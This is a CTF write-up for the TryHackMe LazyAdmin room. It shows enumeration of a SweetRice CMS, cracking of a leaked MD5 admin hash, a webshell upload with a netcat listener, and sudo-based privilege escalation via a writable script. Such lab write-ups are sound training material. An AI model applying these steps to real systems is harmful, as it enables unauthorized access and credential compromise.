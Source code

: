 TryHackMe LazyAdmin

Sonntag, 6. Dezember 2020

23:03

 

Flags:
======

<table>
<thead>
<tr class="header">
<th>#</th>
<th>Found</th>
<th>Entry</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>User Flag</td>
<td>/home/itguy/user.txt</td>
<td>Port 88 - /content/as</td>
</tr>
<tr class="even">
<td>Root Flag</td>
<td>/root/root.txt</td>
<td>Port 88 - /content/as</td>
</tr>
</tbody>
</table>

 
=

Enumeration
===========

<table>
<thead>
<tr class="header">
<th>IP#1</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th>Port</th>
<th><blockquote>
<p>Service</p>
</blockquote></th>
<th><blockquote>
<p>Software/<br />
Version</p>
</blockquote></th>
<th><blockquote>
<p>Credentials</p>
</blockquote></th>
<th><blockquote>
<p>Done</p>
</blockquote></th>
<th><p>Flag/Step</p>
<p>Solution</p></th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>22</td>
<td>SSH</td>
<td>OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)</td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>???</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>???</td>
</tr>
</tbody>
</table></td>
<td>yes</td>
<td> </td>
<td> </td>
</tr>
<tr class="even">
<td>80</td>
<td>HTTP</td>
<td>Apache httpd 2.4.18 ((Ubuntu))</td>
<td> </td>
<td>yes</td>
<td><p>User.txt</p>
<p>Root.txt</p></td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

<table>
<thead>
<tr class="header">
<th>80</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><p>$gobuster dir -w /usr/share/wordlists/dirb/big.txt -u</p>
<table>
<thead>
<tr class="header">
<th>Path</th>
<th>Contents</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>/content</td>
<td><p>[…]</p>
<p>Powered by Basic-CMS.ORG SweetRice.</p></td>
<td> </td>
</tr>
<tr class="even">
<td>/content/attachment/</td>
<td>Landing Plattform for upload</td>
<td> </td>
</tr>
<tr class="odd">
<td>/content/inc</td>
<td>SweetRice Source &amp; Binaries</td>
<td> </td>
</tr>
<tr class="even">
<td>/content/inc/mysql_backup</td>
<td><ol type="1">
<li><blockquote>
<p>$cat mysql_bakup_20191129023059-1.5.1.sql</p>
</blockquote></li>
</ol>
<ol start="2" type="1">
<li><blockquote>
<p>ISERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&amp;#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"<strong>manager</strong>\\";s:6:\\"passwd\\";s:32:\\"<strong>42f749ade7f9e195bf475f37a44cafcb</strong>\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"&lt;p&gt;Welcome to SweetRice - Thank your for install SweetRice as your website management system.&lt;/p&gt;[…]</p>
</blockquote></li>
</ol>
<ol start="3" type="1">
<li><blockquote>
<p>$hashcat -a 0 -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlist/rockyou.txt</p>
</blockquote></li>
<li><blockquote>
<p>$hashcat --show</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
<p>42f749ade7f9e195bf475f37a44cafcb:<strong>Password123</strong></p>
<p> </p>
</blockquote></td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>manager</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>Password123</td>
</tr>
</tbody>
</table></td>
</tr>
<tr class="odd">
<td>/content/as</td>
<td><p>SweetRice Management Page</p>
<p> </p>
<ol type="1">
<li><blockquote>
<p>Login with credentials manager:Password123</p>
</blockquote></li>
<li><blockquote>
<p>Go to Media Center -&gt; Upload and upload custom webshell e.g shell.php</p>
</blockquote></li>
<li><blockquote>
<p>$nc -lvnp &lt;port&gt;</p>
</blockquote></li>
<li><blockquote>
<p>Start shell by clicking on the uploaded file or move to /content/attachment/&lt;uploadedFile&gt;</p>
</blockquote></li>
</ol>
<ol start="5" type="1">
<li><blockquote>
<p>$cat /home/itguy/user.txt</p>
</blockquote></li>
</ol>
<p> </p>
<p><strong>Privilege Escalation</strong></p>
<ol type="1">
<li><blockquote>
<p>$sudo -l</p>
</blockquote></li>
<li><blockquote>
<p>$cat /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$echo "/bin/sh" &gt; /etc/copy.sh</p>
</blockquote></li>
<li><blockquote>
<p>$sudo perl /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$cat /root/root.txt</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
</blockquote></td>
<td><p>User.txt Flag</p>
<p>Root.txt Flag</p></td>
</tr>
<tr class="even">
<td> </td>
<td> </td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

Users
=====

<table>
<thead>
<tr class="header">
<th>ID</th>
<th>Username</th>
<th>Password</th>
<th>Hash</th>
<th>Hash Algorithm</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>-</td>
<td>manager</td>
<td>Password123</td>
<td>42f749ade7f9e195bf475f37a44cafcb</td>
<td><p>Possible algorithms: md5</p>
<p> </p></td>
<td>Administrator</td>
</tr>
</tbody>
</table>

 

**Legend**

<table>
<thead>
<tr class="header">
<th> </th>
<th><blockquote>
<p>Step Solution/Finding</p>
</blockquote></th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td> </td>
<td><blockquote>
<p>Rabbit Hole</p>
</blockquote></td>
</tr>
</tbody>
</table>
